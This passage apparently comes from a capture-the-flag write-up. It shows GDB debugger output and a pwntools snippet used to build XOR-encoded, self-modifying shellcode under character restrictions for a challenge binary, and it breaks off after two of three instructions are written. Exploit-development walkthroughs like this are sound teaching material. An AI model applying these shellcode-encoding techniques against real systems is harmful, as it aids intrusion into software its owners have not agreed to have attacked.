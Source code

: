 We can confirm that this is working in GDB by manually setting bh to 0xf4 (`set $bh=0xf4`) before instructions involving that register. We now have an `xor rdi, rdi` instruction!
```
   0x13371337001e                  xor    BYTE PTR [rax], dh
   0x133713370020                  xor    BYTE PTR [rax], dh
   0x133713370022                  xor    BYTE PTR [rax], dh
   0x133713370024                  xor    BYTE PTR [rax], dh
   0x133713370026                  xor    BYTE PTR [rax], dh
   0x133713370028                  xor    BYTE PTR [rax], dh
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chal_patched", stopped 0x13371337001e in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x13371337001e → xor BYTE PTR [rax], dh
[#1] 0x55be9ed5a447 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/8bx 0x133713370070
0x133713370070: 0x48    0x31    0xff    0x48    0x31    0x30    0x30    0x30
gef➤  x/i 0x133713370070
   0x133713370070:      xor    rdi,rdi
```
From this point, writing 0xc0 at 0x75 is relatively simple. 0xc0 = 0xf4 ^ 0x34, so we can just prepopulate the offset with a 0x34, move rax over there, and XOR it with bh. So, just add:
```
shellcode += asm('''
xor al, 0x30;
xor al, 0x37;
xor BYTE PTR [rax], bh;
''')
```
And view the results in GDB. Now we have two out three instructions fully written!
```
→ 0x133713370024                  xor    BYTE PTR [rax], dh
   0x133713370026                  xor    BYTE PTR [rax], dh
   0x133713370028                  xor    BYTE PTR [rax], dh
   0x13371337002a                  xor    BYTE PTR [rax], dh
   0x13371337002c                  xor    BYTE PTR [rax], dh
   0x13371337002e                  xor    BYTE PTR [rax], dh
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chal_patched", stopped 0x133713370024 in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x133713370024 → xor BYTE PTR [rax], dh
[#1] 0x5625ff5c3447 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/8bx 0x133713370070
0x133713370070: 0x48    0x31    0xff    0x48    0x31    0xc0    0x30    0x30
gef➤  x/2i 0x133713370070
   0x133713370070:      xor    rdi,rdi
   0x133713370073:      xor    rax,rax
gef➤
```
